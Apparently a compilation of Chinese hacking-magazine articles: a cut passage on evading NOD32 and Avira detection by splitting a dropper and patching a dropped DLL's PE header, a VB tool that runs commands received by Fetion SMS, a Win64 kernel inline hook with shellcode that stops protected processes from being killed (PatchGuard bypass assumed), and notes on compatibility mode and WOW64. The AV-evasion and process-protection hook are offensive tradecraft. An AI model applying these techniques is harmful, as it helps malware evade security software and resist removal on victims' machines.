重新生成 EXE 文件后小红伞不杀了，但 NOD32 依然查杀。显然 NOD32 的虚拟机跟踪了这种行为，而小红伞的启发式无法跟踪。如果不写上那两句恢复代码 NOD32 是不杀的，因此可以判断前面的推测是正确的，现在是要解决 NOD32 虚拟机的问题。试着把函数改成动态调用也没用，还是查杀。经过思考后决定把 EXE 的功能拆分开，让 NOD32 的虚拟机无法跟踪这种行为。我们把现在的 EXE 文件叫 EXE-A，然后再写一个 EXE 文件，这里叫它 EXE-B，EXE-B 的代码很简单，就是去指定的目录找到指定 DLL 文件，并把 PE 两个字符给 DLL 补上，然后把 EXE-B 和 DLL 文件都放 EXE-A 的资源里去。EXE-A 依次释放 DLL 和 EXE-B，然后运行 EXE-B，这里 EXE-B 会把 DLL 的 PE 两个字符补上，但运行 DLL 的代码不要写在 EXE-B 里，而是写在 EXE-A 里，运行前面加上 Sleep(1000) 延时 1 秒基本上就可以了。

通过这样编排后，NOD32 的虚拟机就跟踪不出来整个行为了，因为 EXE-A 只是释放了一个非 PE 文件和一个 EXE 文件到系统的临时目录并试图运行。运行的这个 EXE 文件虽然是 PE 文件，但它是一个很正规的……

前置知识：VB  
关键词：手机，电脑，VB


# 通过手机短信控制电脑

图/文 胡文亮

## 问题由来

自从买了新台式机后，我经常下载新游戏玩，但大家都知道，现在的游戏是很大的（10GB 以上），学校的网速是很慢的（100kb/s~200kb/s）。所以有些游戏即使是通宵下载也是无法完成的。有些时候早上起来，发现下载了 90%，但是要上课了，而一出去就要晚上才能回来（上完课还有自习、饭局等事情），如果下载完毕后一直开着机，会十分浪费电，因为我的电脑使用了高端处理器以及发烧级显卡，所以必须解决下载完后自动关机的问题（我的下载工具不是国内的常见下载工具，没有“下载完后关机”的功能，不用国内的软件，是怕那些软件带有一些 rootkit 性质的东西在我的电脑里捣鬼）。也许有人问为什么不叫舍友帮忙关机，这主要是我不喜欢别人碰我的电脑。也许还有人问，如果仅仅是下载完关机，也不需要用手机控制电脑啊，直接写个 VBS 脚本不就行了。那我只能很不好意思地告诉大家，我需要一个通知功能，让电脑告诉我何时下载完了，如果下载完了，我会尽早回宿舍试玩新游戏，推掉其他不重要的事情。

（即使带着，学校里也没有 WIFI 可以上网）。所以，我决定发明一种方案，使用手机控制电脑。使用手机控制电脑的基本思路是手机通过发送信息（这个信息不仅仅是指手机短信 SMS，而是广义的信息 Information），在电脑上用特定软件接收，接收的信息被我的程序截获后，进行相应的处理，然后把处理结果通过电脑上的特定软件发送给手机。这个“特定软件”，必须具备一个条件，就是必须在电脑和手机上都有客户端。在中国一般有两种，一种是 QQ，另一种是飞信。QQ 免费，飞信要付费（手机需要付的月租费和 GPRS 费或短信费）。但是 QQ 的自我保护比较强，模拟按键很难（并非不能，只是不方便使用），用 FindWindow 函数只能找到主窗口的句柄，消息发送框、消息接收框和发送消息的按钮都是“画”上去的，无句柄。而飞信的消息发送框、消息接收框是有句柄的，只有“发送短信”的按钮是无句柄的。综上所述，我决定选择飞信作为我远程控制电脑的工具。而手机端无需任何软件，只要能发短信就行（注：直接发送短信要钱，可能是 0.1~0.2 元一条短信；如果使用飞信就不用花钱，但需要花 GPRS 费用）。

接下来，分析一下飞信的聊天窗口。它的主窗口的类名是 FxWnd，窗口上有三个文本框（一个提示框、一个消息接收框、一个消息发送框），类名都是 FxRichEdit，如图 1 所示。

我们要利用飞信来收发消息，必须先获得消息接收框和消息发送框的句柄，这个不难做到，只要用 FindWindow + FindWindowEx 即可。获得消息接收框的内容和给消息发送框设置文字也很方便，用 SendMessage 即可。但是要把消息发送出去，就有点难度了，我们要获得【发送短信】这个按钮的屏幕坐标，接着把鼠标移过去，然后进行模拟点击……另外说说如何模拟点击，我用的函数是不太常用的 SendInput，而不是什么 SendMessage。这个函数的被关注率较低，所以十分有效……以下是利用 SendInput 进行模拟点击操作的源码：

```vb
dwType As Long
xi(0 To 23) As Byte
End Type

Private Declare Function SendInput Lib "user32.dll" (ByVal nInputs As Long, pInputs As INPUT_TYPE, ByVal cbSize As Long) As Long

Public Type MOUSEINPUT
  dx As Long
  dy As Long
  mouseData As Long
  dwFlags As Long
  dwtime As Long
  dwExtraInfo As Long
End Type

Public Enum MouseClick
  MOUSEEVENTF_LEFTDOWN = &H2
  MOUSEEVENTF_LEFTUP = &H4
  MOUSEEVENTF_RIGHTDOWN = &H8
  MOUSEEVENTF_RIGHTUP = &H10
  MOUSEEVENTF_MIDDLEDOWN = &H20
  MOUSEEVENTF_MIDDLEUP = &H40
End Enum

Public Sub VirtualClickMouse(ButtonPressed As MouseClick, Optional ButtonRelease As MouseClick)
  Dim intX As Integer
  Dim inputEvents(0 To 1) As INPUT_TYPE
  Dim mouseEvent As MOUSEINPUT
  ...
  intX = SendInput(2, inputEvents(0), Len(inputEvents(0)))
End Sub
```


图 1

```vb
Private Declare Sub CopyMemory Lib "kernel32" Alias "RtlMoveMemory" (Destination As Any, Source As Any, ByVal Length As Long)
Private Type INPUT_TYPE
  ...
```

最小化所有可视窗口的代码如下：

```vb
Private Declare Function EnumWindows Lib "user32" (ByVal lpEnumFunc As Long, ByVal lParam As Long) As Long
Private Declare Function GetWindowLong Lib "user32" Alias "GetWindowLongA" (...)
Private Declare Function ShowWindow Lib "user32" (...)
Private Const WS_MINIMIZEBOX = &H20000
Private Const WS_VISIBLE = &H10000000
Private Const GWL_STYLE = (-16)
Private Const SW_MINIMIZE = 6
'该函数是 EnumWindows 的回调函数...
```

```vb
'EnumWindows 函数将遍历的窗口句柄传递到 hwnd 参数中
Public Function EnumWindowsProc(ByVal hwnd As Long, ByVal lParam As Long) As Long
    Dim l As Long
    Dim ld As Long
    ld = GetWindowLong(hwnd, GWL_STYLE)
    '如果窗口具有最小化按钮并且窗口是可见的就将该窗口最小化
    If ((ld And WS_MINIMIZEBOX) = WS_MINIMIZEBOX) Then
        If ((ld And WS_VISIBLE)) Then
            Call ShowWindow(hwnd, SW_MINIMIZE)
        End If
    End If
    EnumWindowsProc = True
End Function

Public Sub MinAllWindows()
    Dim l As Long
    l = EnumWindows(AddressOf EnumWindowsProc, 0)
End Sub
```

说完了原理，接下来就要编写程序了。平心而论，代码并没有什么难写的地方，但是想出这个思路才是不容易的事情。首先用 VB 画出如图 2 所示的窗体。


图 2

这个程序的核心部分就是“获取句柄”按钮、“发送消息”按钮、“接收消息”按钮以及“计时器”（自动处理指令）代码的编写：

```vb
'获得句柄
Private Sub GetHwnds()
    Text1.Text = ""
    Text2.Text = ""
    Text3.Text = ""
    Dim hXXXX As Long
    hFX = FindWindowA("FxWnd", Text5.Text)
    Text1.Text = Hex$(hFX)
    If hFX = 0 Then Exit Sub
    hXXXX = FindWindowExA(hFX, 0, "FxRichEdit", vbNullString)
    If hXXXX = 0 Then Exit Sub
    hJSXX = FindWindowExA(hFX, hXXXX, "FxRichEdit", vbNullString)
    Text2.Text = Hex$(hJSXX)
    If hJSXX = 0 Then Exit Sub
    hFSXX = FindWindowExA(hFX, hJSXX, "FxRichEdit", vbNullString)
    Text3.Text = Hex$(hFSXX)
End Sub
```

```vb
If hFSXX = 0 Then Exit Sub
'获得窗口的位置
GetWindowPlacement hFX, wp
Text8.Text = CStr(wp.rcNormalPosition.Bottom - 20)
Text7.Text = CStr(wp.rcNormalPosition.Right - 220)
End Sub

'发送消息
Private Sub Command1_Click()
    Dim ss As String
    Const HWND_TOP = 0
    Const SWP_NOSIZE = &H1
    Const SWP_NOMOVE = &H2
    Const SWP_SHOWWINDOW = &H40
    ss = Text4.Text
    SendMessageA hFSXX, &HC, 0, ByVal ss   'WM_SETTEXT
    '恢复窗口
    MinAllWindows
    ShowWindow hFX, 9 'SW_RESTORE
    SetWindowPos hFX, HWND_TOP, 0, 0, 0, 0, SWP_NOMOVE Or SWP_NOSIZE Or SWP_SHOWWINDOW
    SetWindowPlacement hFX, wp
    '模拟鼠标
    SetCursorPos CLng(Text7.Text), CLng(Text8.Text)
    VirtualClickMouse MOUSEEVENTF_LEFTDOWN, MOUSEEVENTF_LEFTUP
End Sub

'接收消息
Private Sub Command2_Click()
    Dim tempStr As String, strLong As Long
    strLong = SendMessageA(hJSXX, &HE, 0, vbNull)   'WM_GETTEXTLENGTH
    tempStr = Space$(strLong + 1)
    Call SendMessageA(hJSXX, &HD, strLong + 1, tempStr) 'WM_GETTEXT
    Text0.Text = Trim(tempStr)
End Sub

'得到最后的消息的发送者
Public Function GetLastName(ByVal szText As String, ByVal szName1 As String, szName2 As String) As String
    Dim sz() As String
    Dim i As Long, Name1Len As Long, Name2Len As Long
    Name1Len = Len(szName1)
    Name2Len = Len(szName2)
    sz = Split(szText, vbCrLf)
    For i = UBound(sz) To 1 Step -1
        If Left$(sz(i), Name1Len) = szName1 Then
            GetLastName = szName1
            Exit Function
        End If
        If Left$(sz(i), Name2Len) = szName2 Then
            GetLastName = szName2
            Exit Function
        End If
    Next
End Function

'得到最后一条指令
Public Function GetLastCmd(ByVal szText As String) As String
    Dim sz() As String
    Dim i As Long
    sz = Split(szText, vbCrLf)
    GetLastCmd = sz(UBound(sz) - 1)
End Function

'解析并执行指令
Private Sub TimerGetCmds_Timer()
    Command2_Click
```

```vb
Dim szLastName As String, szLastCMD As String
szLastName = GetLastName(Text0.Text, Text5.Text, Text6.Text)
If szLastName <> Text5.Text Then Exit Sub
szLastCMD = GetLastCmd(Text0.Text)
If szLastCMD = "test from cp" Then
    Text4.Text = "test from pc"
    Command1_Click
ElseIf LCase$(Left$(szLastCMD, 6)) = "runexe" Then
    Text4.Text = RunExe(szLastCMD)
    Command1_Click
ElseIf LCase$(Left$(szLastCMD, 4)) = "swfe" Then
    ' SWFE = ShutdownWhenFileExist
    Text4.Text = "收到指令！关机前会再发送短信通知！"
    Command1_Click
    Sleep 500
    Text4.Text = ReturnWhenFileExist(szLastCMD)
    Command1_Click
    Sleep 2000
    RtlAdjustPrivilege 19, 1, 0, 0
    ' 注：在演示程序里下面这句用 MsgBox 替代了，并没有真的关机！！！
    NtShutdownSystem 0
End If
End Sub
```

当选中“自动解析收到的指令”时，计时器就会每隔一秒钟检测一次是否有新的短信发送过来。如果有，就自动解析并执行指令。在 Time(GetCmds_Time()) 这个过程里还能处理其他指令，大家可以根据自己的需求添加相应代码。另外，这个过程具有阻塞性，就是说前一条指令没有执行完之前，不会对你新发送的指令产生反应。当前一条指令执行完之后，由于回馈了“执行完毕”的信息，未被执行的指令就被忽略了。感兴趣的读者可以尝试解决这个问题。

- 3. 把 SIM2 插入手机并开启手机。
- 4. 运行我的程序并选择“自动解析收到的指令”复选框。
- 5. 运行“模拟下载游戏.bat”，此批处理运行一段时间后会在 C 盘根目录创建一个 gt4.exe。它其实是通过 ping 谷歌服务器进行 20 次延时模拟下载过程，你可以增加或减少 ping 的次数以求延长或减短测试时间。
- 6. 手机（SIM1）给电脑（SIM2）发送一条短信，内容是“swfe c:\gt4.exe”。

注：步骤 5 和步骤 6 可以互换。  
如果没有意外，电脑上的飞信客户端会收到这条短信。此时，我的程序会截取到这条消息，并通过电脑飞信给手机发送一条短信，内容是：“收到指令！关机前会再发送短信通知！”当“模拟下载游戏.bat”执行完毕后，我的程序会再次通过飞信发送一条短信到手机 2，内容是“c:\gt4.exe @ 具体时间 已经下载完毕！”。随后，我的程序会调用 NtShutdownSystem 关闭计算机。

## 效果测试

- 1. 准备两张 SIM 卡，都要开通飞信。SIM1 的飞信名称为 Server，SIM2 的飞信名称为 Client。
- 2. 在电脑上登录 SIM1（Server）的飞信，并打开与 Client 聊天的窗口。注意选项卡一定要在“发短信”那一格，而且要选择【按 Enter 键发送】，如图 3 所示。


图 3

要特别注意的是，不要在电脑上登录 SIM2 的飞信，否则会导致插 SIM2 的手机收不到 SIM1 通过电脑发来的短信。

## 功能测试

其实本软件的核心就是利用飞信发送以及获取信息，如果没有条件测试，可以进行简单的功能测试。首先登录电脑上的飞信客户端，随便打开一个聊天窗口，然后打开我的程序，在【客户端标题（手机）】处输入你打开的聊天窗口的标题栏的内容（可以用附带工具 WndSpy 获得），单击“获取句柄”，就能看到已经获得了三个句柄；然后在【要发送的消息】处随便输入一点文字，按下【发送消息】按钮，就会发现消息已经通过飞信发送了出去；最后单击一下“接收消息”，就会发现在【接收到的消息】处出现了飞信消息接收框里的内容。

以上步骤在飞信 2011 夏花版（官方下载的文件名为 Fetion2011_July.exe）以及飞信 2011 盛夏版（官方下载的文件名为 Fetion2011August.exe）+ 索尼爱立信 K800i 上测试成功。另外这个程序的用途绝对不止这些……

三个代表”，就把复习资料（TXT 文件）里有“三个代表”字样的简答题的答案发到手机，然后把手机里的答案抄到试卷上即可。当然这个想法也只是说说，考试作弊是绝对不推荐的。至于其他方面的应用（如利用自动发短信的功能结合人工智能泡妞等），就要开动自己的脑筋了。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动

关键词：Win64，内核，HOOK


# 在 Win64 上实现内核级 Inline Hook

文 / 胡文亮

在之前的文章里，我谈过不少 Ring 3 Inline Hook 的内容，然而发现，Ring 3 Inline Hook 在某些情况下没有实用价值。比如针对 Native API 的 Inline Hook。因为 Native API 的组成太有特色了，每个 Native API 的反汇编代码除了 INDEX 不同其他都相同，而且组成都很短。因此只要制作一个调用 Native API 的“模板”，再动态获取要调用的 Native API 的 index，然后把 index 填入“模板”，就能绕过 NTDLL.DLL 来调用 Native API 了（以上说法太复杂，简单地说，就是把 NTDLL.DLL 中你要调用的 Native API 的机器码复制到字节数组里，然后把这个字节数组当成函数来执行）。这种方法几乎是防不胜防的。因此，我们必须使用更加强有力的手段来达到我们的目的，这个手段就是 Ring 0 Inline Hook。

首先不要对如何在 Win64 上加载驱动和绕过 PatchGuard 感到惊奇，这两个问题我已经在以前的文章阐述过了（工具包在附件里，如何使用请看工具包里的说明）。本文略过不表，直接讲述核心内容。为了体现演示效果，以 Hook 未导出函数 PspTerminateThreadByPointer 保护进程为例。

搜索未导出函数 PspTerminateThreadByPointer 可以通过特征码搜索的方法在 PsTerminateSystemThread 中得到：

```c
ULONG64 GetPspTerminateThreadByPointerAddress()
{
    ULONG32 callcode = 0;
    ULONG64 AddressOfPspTTBP = 0, AddressOfPsTST = 0, i = 0;

    AddressOfPsTST = (ULONG64)GetFunctionAddr(L"PsTerminateSystemThread");
    if (AddressOfPsTST == 0)
        return 0;
    for (i = 1; i < 0xff; i++)
    {
        if (MmIsAddressValid((PVOID)(AddressOfPsTST + i)) != FALSE)
        {
            if (*(UCHAR *)(AddressOfPsTST + i) == 0x01
                && *(UCHAR *)(AddressOfPsTST + i + 1) == 0xe8)
            {
                RtlMoveMemory(&callcode, (PVOID)(AddressOfPsTST + i + 2), 4);
                // 目标地址-原始地址-5=机器码 ==> 目标地址=机器码+5+原始地址
                AddressOfPspTTBP = (ULONG64)callcode + 5 + AddressOfPsTST + i + 1;
            }
        }
    }
    return AddressOfPspTTBP;
}
```

搜索 PspTerminateThreadByPointer 的过程和 Win32 下的做法很相似，无非就是 ULONG32 变成了 ULONG64，但是挂钩的过程就有天壤之别了。首先回顾 Win32 下 Ring 0 Head Inline Hook 的做法（前提假设此函数的前五字节是 8B FF 55 8B EC，即绝大多数内核函数的头五字节，共三条指令）：

- 1. 把这五字节改成 E9 XX XX XX XX，跳转到自己的代理函数里；
- 2. 在代理函数里先执行这五字节（三条指令）然后判断参数，决定是直接返回失败信息还是跳转到原函数地址+5 字节的地方。

在 Win64 上的做法变得简单了，我们只要这么做：

- 1. 获取函数开头几条指令的总长度 N，N 大于等于 12 即可，指令一定不能被截断（假如某函数的前两条指令是 11 字节，前三条指令是 15 字节，那么 N 就等于 15）。
- 2. 把这 N 字节中的前 12 字节改为 `48 B8 XX XX XX XX XX XX XX XX FF E0`，剩下的用 NOP（`90`）补齐，其中八个 `XX` 是代理函数的绝对地址。对应汇编代码是：`mov rax, 代理函数的绝对地址; jmp rax`（换成别的 64 位寄存器如 `rbx` 也可）。
- 3. 在代理函数里先执行被修改的几条指令，然后判断参数，决定是直接返回失败信息还是跳转到原函数地址 `+N+1` 字节的位置。

```asm
mov rbx, ffffffffffffffff        ;把保护的 ETHREAD 放到 rbx
cmp rcx, rbx                     ;比较第一个参数是否要保护的 ETHREAD
je myp                           ;若对比结果相同则跳到 myp
mov rax, ffffffffffffff00        ;把 PspTerminateThreadByPointer+15 的地址放入 rax
jmp rax                          ;跳转到 PspTerminateThreadByPointer+15
myp:
mov eax, c0000022h               ;把“拒绝访问”的 NTSTATUS 放入 eax
ret                              ;直接返回
```

当然了，第一条指令的 ETHREAD（在分发函数里用 PsGetCurrentThread 取得）和第四条指令的绝对地址是要动态写入的。代码如下：

Unhook 跟 Win32 没什么两样，直接把修改了的机器码写回去就行了。接下来以 `PspTerminateThreadByPointer` 为例，进行详细的分析。首先用 Windbg 查看。

```asm
PspTerminateThreadByPointer 的反汇编代码：
u PspTerminateThreadByPointer
fffff800`01970254 48895c2408    mov qword ptr [rsp+8],rbx
fffff800`01970259 48896c2410    mov qword ptr [rsp+10h],rbp
fffff800`0197025e 4889742418    mov qword ptr [rsp+18h],rsi
fffff800`01970263 57            push rdi
fffff800`01970264 4883ec40      sub rsp,40h
fffff800`01970268 f6814804000040 test byte ptr [rcx+448h],40h
fffff800`0197026f 418af0        mov sil,r8b
fffff800`01970272 8bea          mov ebp,edx
```

可以看到 `PspTerminateThreadByPointer` 的前三条指令共 15 字节，所以我们必须 Patch 前 15 字节（N=15）。把前 12 字节改写成跳转指令（`mov + jmp`），剩下的 3 字节用 NOP 补齐。由于 64 位驱动代码里不能内嵌汇编，所以代理函数必须用机器码来写（现在还没有想到什么更好的解决方案）。而且，代理函数绝对不是只要写处理过程就行了，开头还有东西要处理。首先用 ExAllocatePool 申请一片空白的内核内存 buffer（约 100 字节），然后把被我们修改掉的 15 字节（三条指令）写到这片 buffer 的头部，然后在 16 字节开始的地方填充自己的处理过程。接下来详细说说如何处理。

处理 `PspTerminateThreadByPointer` 的参数很简单，因为此函数只有三个参数，分别放到了 `rcx（PETHREAD）`、`rdx（ExitStatus）`、`r8（DirectTerminate）` 里。我们只要处理 `PspTerminateThreadByPointer` 的第一个参数即可。代码如下：

```c
void HookPspTerminateThreadByPointer()
{
    KIRQL irql;
    ULONG64 Real_PspTTBP_add_15, PspTTBP_fakefunc_address;
    /*
      PspTerminateThreadByPointer 原始指令1
      PspTerminateThreadByPointer 原始指令2
      PspTerminateThreadByPointer 原始指令3
      mov rbx, ffffffffffffffff
      cmp rcx, rbx
      je myp
      mov rax, ffffffffffffff00
      jmp rax
      myp:
      mov eax, c0000022h
      ret
    */
    UCHAR fakefuncShellcode[] = "\x48\xBB...\xFF\xE0\xB8\x22\x00\x00\xC0\xC3";

    /*
      mov rax, ffffffffffffff00
      jmp rax
    */
    UCHAR jmp_code[] = "\x48\xB8...\xFF\xE0";

    // 1. 获取 PspTerminateThreadByPointer 的地址并申请 PspTTBP_fakefunc 的空间
    ULONG64 PspTTBP_addr = GetPspTerminateThreadByPointerAddress();

    Real_PspTTBP_add_15 = PspTTBP_addr + 15;
    PspTTBP_fakefunc = kmalloc(100);
    PspTTBP_fakefunc_address = (ULONG64)PspTTBP_fakefunc;
    RtlFillMemory(PspTTBP_fakefunc, 100, 0x90);

    // 2. 复制 PspTerminateThreadByPointer 的 3 条原始指令共 15 字节到 PspTTBP_ori_code 和 PspTTBP_fakefunc 头部
    irql = WPOFFx64();
    memcpy(PspTTBP_ori_code, (PVOID)PspTTBP_addr, 15);
    memcpy(PspTTBP_fakefunc, (PVOID)PspTTBP_addr, 15);
    WPONx64(irql);

    // 3. 处理 fakefuncShellcode 并填充进 PspTTBP_fakefunc 中
    memcpy(fakefuncShellcode + 2, &my_ethread, 8);
    memcpy(fakefuncShellcode + 17, &Real_PspTTBP_add_15, 8);
    memcpy((PUCHAR)PspTTBP_fakefunc + 20, fakefuncShellcode, 33);

    // 4. 处理 jmp_code 并 hook
    memcpy(jmp_code + 2, &PspTTBP_fakefunc_address, 8);
    irql = WPOFFx64();
    RtlFillMemory((PVOID)PspTTBP_addr, 15, 0x90);
    memcpy((PVOID)PspTTBP_addr, jmp_code, 12);
    WPONx64(irql);
}
```

以上每一行的代码都非常长，在电子书里看可能会看得不舒服，所以大家可以直接打开源码文件（HookFunch）看，几乎每一行代码都有详细的注释，相信只要有一定的汇编语言基础的朋友都能看懂。接下来用 Windbg 反汇编 HOOK 之后的 PspTerminateThreadByPointer：

```asm
kd> u PspTerminateThreadByPointer
nt!PspTerminateThreadByPointer:
fffff800`01970254 48b88403eaf0280faffff mov rax,0FFFFFA80002AE3E40h
fffff800`0197025e ffe0                  jmp rax
fffff800`01970260 90                    nop
fffff800`01970261 90                    nop
fffff800`01970262 90                    nop
fffff800`01970263 57                    push rdi
fffff800`01970264 4883ec40              sub rsp,40h
fffff800`01970268 f681480400000040      test byte ptr [rcx+448h],40h
```

大家只需要对比一下前 15 字节有什么变化就行了。Unhook 就很简单了，直接贴代码不解释：

```c
void UnhookPspTerminateThreadByPointer()
{
    KIRQL irql;
    ULONG64 PspTTBP_addr = GetPspTerminateThreadByPointerAddress();
    irql = WPOFFx64();
    memcpy((PVOID)PspTTBP_addr, PspTTBP_ori_code, 15);
    WPONx64(irql);
}
```

效果就是用任务管理器（以及一切要使用到 PspTerminateThreadByPointer 的结束进程的方法，包括 Job Object 大法）无法结束我们保护的进程。由于没有错误提示框，难以截图，所以只能用屏幕录像了，录像文件在附件里。

Win32 系统的内核函数前五字节千篇一律，所以 Win32 下的 Ring 0 Head Inline Hook 很容易失效（可以用万能硬编码 `8B FF 55 8B EC` 来清除 HOOK），而 Win64 系统的内核函数前 N 字节千差万别，用硬编码清除 HOOK 的可能性很低。所以 Win64 下的 Ring 0 Head Inline Hook 不容易失效。如果让 ntoskrnl.exe 不能被读取，就更增加了恢复 Hook 的难度。

最后说说这个代码的缺点，一是难以调用 Kernel API（不是不能），二是不通用（没有用反汇编引擎分析机器码动态确定前 N 条指令是多少字节）。我相信这两个问题以后都会解决。毕竟万事开头难，我已经跨出了 Win64 Ring 0 Inline Hook 的第一步，将来一定能制作出一个通用的 Win64 Ring 0 Inline Hook 模板。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC

关键词：WOW64，汇编，64 位

# 杂谈兼容模式与 WOW64

文 / 胡文亮


兼容模式与 WOW64 不是一回事，但有点类似，都是关于旧 Windows 程序在新 Windows 平台上运行的。通过兼容模式，十几年前的 Office 97 可以在 Windows 7 上运行（但反过来 Office 2007 不能在……）

## 兼容模式与 WOW64

Windows 9x 上运行；通过 WOW64（全称 Windows On Windows 64，不是《魔兽世界》），可以在 Win64 系统上运行 Win32 应用程序（但反过来，Win64 应用程序不可以在 Win32 系统上运行）。可以想象，如果没有兼容模式与 WOW64，将会有多少旧程序无法在新系统上运行，而新系统又会损失多少用户。就拿我来说，如果 Windows 7 X64 无法运行 GTA4，恐怕我就不会把 Windows 7 X64 作为常用的操作系统了，因为 GTA4 是我必玩的游戏。

### 兼容模式的实现

先说说兼容模式的实现。当一个程序运行在兼容模式时，系统就会给它加载不同的 DLL，保证此程序的正常运行。随便运行一个应用程序，在兼容模式与非兼容模式下，会有不同的 DLL 加载，如图 1 所示。


图 1

要设置某个程序的兼容性，就打开此程序文件的“属性”对话框，切换到“兼容性”选项卡，勾选“用兼容模式运行这个程序”复选框并选择系统版本即可。实际上，设置程序兼容性就是在注册表的 `[HKCU/Software/Microsoft/Windows NT/CurrentVersion/AppCompatFlags/Layers]` 下面建立一个键值。新建这个键值会使 `kernel32!GetVersionEx` 和 `ntdll!RtlGetVersion` 获得兼容模式中设置的系统的版本号。比如说某程序明明是在 Win7 下运行的，但是设置了在 XP 的兼容模式下运行，代码如下所示。结果调用 `kernel32!GetVersionEx` 和 `ntdll!RtlGetVersion` 都会得到版本号为 2600 而不是 7600，如图 2 所示。

```c
#include <stdio.h>
#include <windows.h>
typedef long (__stdcall *RTLGETVERSION)(POSVERSIONINFO);

int main() {
    RTLGETVERSION RtlGetVersion =
        (RTLGETVERSION)GetProcAddress(LoadLibrary("ntdll.dll"), "RtlGetVersion");
    OSVERSIONINFO osv1={0}, osv2={0};

    // way 1
    osv1.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
    GetVersionEx(&osv1);
    printf("Get Build Number by GetVersionEx: %ld\n", osv1.dwBuildNumber);

    // way 2
    osv2.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
    RtlGetVersion(&osv2);
    printf("Get Build Number by RtlGetVersion: %ld\n", osv2.dwBuildNumber);

    // show info
    getchar();
    return 0;
}
```


图 2

设置程序兼容性能对抗不少安全类软件，因为不同的系统有不同的硬编码，所以安全类软件启动后的第一件事就是获取 Build Number，来判定该使用哪一套硬编码；如果 Build Number 不是任何已知的 Build Number，就退出程序。大约在两年前，通过“程序兼容性”能让 360 和微点无法启动，很快就封了这个漏洞。

判断自己的程序是否运行在兼容模式下，是个比较有意义的问题。有位网友通过逆向 360，发现 360 有个巧妙的办法来判断自己是否运行在兼容模式下：先调用 GetVersionEx 得到一个版本号，譬如是 5.0（Win 2000），算出一个值 50（5*10+0）；然后取出 ntoskrnl.exe 的版本号，譬如是 5.1（Win XP），再算出一个值 51（5*10+1）；对比前后两个值，如果不相等则认为自身运行在兼容模式下，如图 3 所示。

这件事情实在太过离奇，我绞尽脑汁也没搞明白是怎么回事。如果有读者知道原因，请联系我或者在杂志上发文解释。


图 3

```vb
Option Explicit
Private Type OSVERSIONINFO
    dwOSVersionInfoSize As Long
    dwMajorVersion As Long
    dwMinorVersion As Long
    dwBuildNumber As Long
    dwPlatformId As Long
    szCSDVersion As String * 128
End Type

Private Declare Function GetVersionExA Lib "kernel32.dll" _
    (lpVersionInformation As OSVERSIONINFO) As Long
Private Declare Function RtlGetVersion Lib "ntdll.dll" _
    (lpVersionInformation As OSVERSIONINFO) As Long

Private Sub Command1_Click()
    Dim osv1 As OSVERSIONINFO, osv2 As OSVERSIONINFO

    'way 1
    osv1.dwOSVersionInfoSize = Len(osv1)
    Call GetVersionExA(osv1)
    Print "Get Build Number by GetVersionExA:", osv1.dwBuildNumber

    'way 2
    osv2.dwOSVersionInfoSize = Len(osv2)
    Call RtlGetVersion(osv2)
    Print "Get Build Number by RtlGetVersion:", osv2.dwBuildNumber
End Sub
```

IDA 的反汇编代码如下：

```c
bool __cdecl sub_432BC0()
{
    // ... 反汇编还原代码 ...
    sub_447C20((int)&VersionInformation.dwMajorVersion, 0, 280);
    VersionInformation.dwOSVersionInfoSize = 284;
    GetVersionExW(&VersionInformation);
    v1 = VersionInformation.dwMinorVersion + 10 * VersionInformation.dwMajorVersion;
    if (PathAppendW(pszPath, L"\\ntoskrnl.exe"))
    {
        // ...
    }
    return ...;
}
```

但是在测试的过程中，发生了一件极其诡异的事情，不得不说一下。拥有计算机基础知识的人都知道，如果把一份代码“按原样”翻译成另外一种语言的代码，编译后的执行结果应该是相同的。但是我把上述代码翻译成 VB 代码并编译出 EXE 后，无论怎么设置兼容性，得到的结果都是真实系统的 Build Number，而不是被兼容系统的 Build Number，如图 4。


图 4

### WOW64 与性能

接下来谈谈 WOW64。一个 Win32 应用程序可以直接在 Win64 系统上运行（运行起来的程序称为 WOW64 进程），表面上看无需设置什么兼容性，但实际上是被处理过的。由图 5 可见，Win32 程序在进入内核层之前，经过了 Thunk，而 Win64 程序就是直接进入内核的。此图也解释了为什么 Win64 系统不能加载 Win32 驱动程序的原因，这是因为转换器 Thunk 在用户层，不在内核层。

那么，Win32 程序在 Win64 系统上的执行效率如何呢？我认为这个转换器的效率是挺高的，但还是有能感受到的差距。比如 Core 2 T5800 处理器，在 Win7 X86 上跑 SUPER PI 1M 测试是 30.1 秒，在 Win7 X64 跑同样的测试是 30.9 秒；X9100 处理器 + GTX260M 显卡 + 4GB 内存在 Win7 X86 上跑 3DMARK06（默认设置）的得分是 10977 分，在 Win7 X64 上跑同样的测试是 10586 分。跑其他的硬件测试软件也有 3% 左右的差距。接下来说编程上的注意事项。


图 5

### 判断是否运行在 WOW64 下

首先说说 Win32 程序如何判断自己是否运行在 Win64 系统上。微软的官方方案是使用 `kernel32!IsWow64Process`（这个函数在 XP SP2 以后才有），代码如下：

```c
//代码来自：http://msdn.microsoft.com/en-us/library/ms684139(VS.85).aspx
#include <windows.h>
#include <tchar.h>
typedef BOOL (WINAPI *LPFN_ISWOW64PROCESS)(HANDLE, PBOOL);
LPFN_ISWOW64PROCESS fnIsWow64Process;

BOOL isWow64()
{
    BOOL bIsWow64 = FALSE;
    fnIsWow64Process = (LPFN_ISWOW64PROCESS)GetProcAddress(
        GetModuleHandle(TEXT("kernel32")), "IsWow64Process");
    if (NULL != fnIsWow64Process)
    {
        if (!fnIsWow64Process(GetCurrentProcess(), &bIsWow64))
        {
            // handle error
        }
    }
    return bIsWow64;
}

int main(void)
{
    if (isWow64())
        _tprintf(TEXT("The process is running under WOW64.\n"));
    else
        _tprintf(TEXT("The process is not running under WOW64.\n"));
    return 0;
}
```

但我也有自己的一套检测方法，就是分别调用 GetSystemInfo 和 GetNativeSystemInfo。这两个函数的参数都是一样的（LPSYSTEM_INFO），但是返回的某些信息会有所不同。微软对 GetNativeSystemInfo 的解释如下：

> Retrieves information about the current system to an application running under WOW64. If the function is called from a 64-bit application, it is equivalent to the GetSystemInfo function.

其中一个明显的不同就是 SYSTEM_INFO 结构体中 `wProcessorArchitecture` 成员的值。根据 MSDN 的解释，此值为 0 是 IA32 体系，此值为 9 是 AMD64 体系。如果 Win32 程序在 Win32 系统运行，则两个值都是 0；如果在 Win64 系统运行，则第一个函数返回 0，第二个函数返回 9。简而言之，当这两个值不同时就认为程序是在 Win64 系统上运行，否则认为是在 Win32 系统上运行，代码如下：

```c
